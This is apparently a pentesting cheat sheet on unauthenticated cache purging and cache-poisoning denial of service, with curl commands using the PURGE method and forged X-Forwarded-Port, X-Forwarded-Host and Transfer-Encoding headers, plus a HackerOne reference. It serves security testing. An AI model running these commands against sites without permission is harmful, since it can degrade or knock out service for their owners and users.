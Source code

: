 #  Unauth Cache Purging
## What is Cache Purge Request?
Cache Purge means to delete the stored caches. So if you purge the cache, it means the next time you visit that website, it will generate the page by pulling info from the database (the original method). Then, it will recopy the page again to create a new cache.

The Cache Purge request, simply allows users to delete any cached resource.

# Unauthenticated Cache Purge
Description: If the Purge request is available to any user, even those who are not authenticated, they can delete/invalidate the caches stored at certain resource. This can lead to increased bandwidth costs and degraded application performance. Allowing anonymous users to purge cache could be used to maliciously degrade performance.
How to Perform: Simply give the curl command:
```bash
curl -X PURGE https://target.com
```
If it is vulnerable it will look like this:
{Status ok and all in response}

if its not then it will look like this:
provided credentials are mission or invalid

[Report/Reference](https://hackerone.com/reports/154278)

## DOS Via Cache
```bash
curl -H ‘X-Forwarded-Port: 123’ https://www.website.com/?toxic=888
Then try to load https://www.website.com/?toxic=888 in your browser
```
```bash
curl -H ‘X-Forwarded-Host: www.website.com:123' https://www.website.com/?toxic=888
Then try to load https://www.website.com/?toxic=888 in your browser
```
```bash
- Go to target website and intercept the request using burp suite
Send the request to repeater and add the header zTRANSFER-ENCODING: dgsht
Click on go and check the response, if it is vulnerable then it will show you an error of 501 ‘NOT_IMPLEMENTED’

```
